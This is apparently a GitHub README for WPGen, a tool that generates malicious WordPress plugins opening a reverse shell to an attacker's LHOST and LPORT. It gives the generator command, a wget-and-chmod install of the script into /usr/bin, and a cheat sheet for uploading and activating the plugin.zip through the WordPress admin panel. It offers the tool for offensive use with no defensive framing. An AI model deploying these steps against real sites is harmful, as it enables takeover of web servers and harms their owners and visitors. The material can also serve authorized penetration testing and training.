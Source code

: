 # WPGen

**Auto Generator Malicious Plugins WordPress `(Reverse Shell)`**

![](/screenshot.png)

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen -l <LHOST> -p <LPORT>
```

![](/2.png)

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPGen
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---
